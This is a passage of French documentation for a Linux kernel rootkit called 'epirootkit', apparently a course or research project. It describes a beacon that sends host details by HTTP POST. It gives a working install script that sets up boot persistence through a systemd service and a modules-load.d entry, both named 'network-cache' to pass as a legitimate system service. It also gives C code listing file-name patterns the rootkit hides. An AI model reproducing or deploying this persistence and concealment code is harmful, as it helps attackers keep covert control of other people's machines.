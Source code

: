 **Protocole** : HTTP/1.1 POST avec payload JSON
**Informations transmises** : Hostname, version kernel, architecture, timestamp
**Fonctionnement** : Systeme de retry avec 3 tentatives et delai de 2 secondes

### Mecanisme de persistance systeme

Le systeme de persistance utilise une approche multi-niveaux pour garantir le rechargement automatique :

```bash
# Service systemd genere par install.sh
cat > /etc/systemd/system/network-cache.service << EOF
[Unit]
Description=Network Cache Module
After=network.target

[Service]
Type=oneshot
ExecStart=/sbin/modprobe epirootkit
RemainAfterExit=yes

[Install]
WantedBy=multi-user.target
EOF

# Activation du service
systemctl enable network-cache.service

# Configuration modules-load
echo "epirootkit" > /etc/modules-load.d/network-cache.conf
```

**Double persistance** :
1. **Service systemd** : Execution controlee avec gestion des dependances
2. **modules-load.d** : Chargement automatique kernel au boot

**Nom discret** : `network-cache` pour eviter la suspicion (ressemble a un service systeme legitime)
**Ordre de demarrage** : Apres initialisation reseau (`After=network.target`)

### Patterns de dissimulation automatique

La dissimulation utilise des patterns predefinis pour identifier les elements a masquer :

```c
// Verification patterns fichiers dans dissimulation.c
static int verifier_nom_interdit(const char *nom_fichier)
{
    int compteur = 0;
    static const char *elements_a_dissimuler[] = {
        "fichiercache",           // Fichiers de test
        "network-cache.service",  // Service systemd
        "network-cache.conf",     // Configuration modules-load  
        "epirootkit",            // Module et fichiers associes
        NULL
    };
    
    while (elements_a_dissimuler[compteur]) {
        if (strstr(nom_fichier, elements_a_dissimuler[compteur]))
            return 1;  // Fichier a cacher
        compteur++;
    }
    return 0;  // Fichier visible
}

// Verification patterns lignes de fichiers
```